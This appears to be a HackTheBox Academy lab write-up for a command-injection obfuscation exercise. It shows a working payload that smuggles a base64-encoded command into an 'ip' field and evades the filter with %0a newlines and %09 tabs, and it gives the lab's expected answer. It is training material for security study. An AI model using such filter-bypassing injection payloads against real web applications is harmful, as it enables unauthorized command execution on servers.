 
## HTB Academy Lab Solution

### Challenge: Advanced Obfuscation

**Question:** Find the output of the following command using one of the techniques you learned in this section:
```bash
find /usr/share/ | grep root | grep mysql | tail -n 1
```

### Why Base64 Encoding is Required

After spawning the target machine and visiting its website's root webpage, students need to use **Burp Suite** or **ZAP** to intercept the request made after clicking the Check button. Since the **pipe operator** (`|`) is in the command, students need to use the **third method** which encodes all characters to avoid filter detection.

### Step-by-Step Solution

**Step 1: Base64 Encode the Command**
```bash
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```

**Command Output:**
```bash
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

**Step 2: Create Decoding Command**
```bash
# Command that will decode the encoded base64 string in a sub-shell 
# and then pass it to bash to be executed
bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

**Step 3: Bypass Filters and Execute**

Students need to:
- **Bypass space character filter** by using either `%09` (tab) or `$IFS`
- **Use newline operator** `%0a` to separate the payload from the IP address
- **Forward the modified intercepted request**

**Final Payload:**
```http
ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

### Lab Result

**Expected Output:**
```
/usr/share/mysql/debian_create_root_user.sql
```
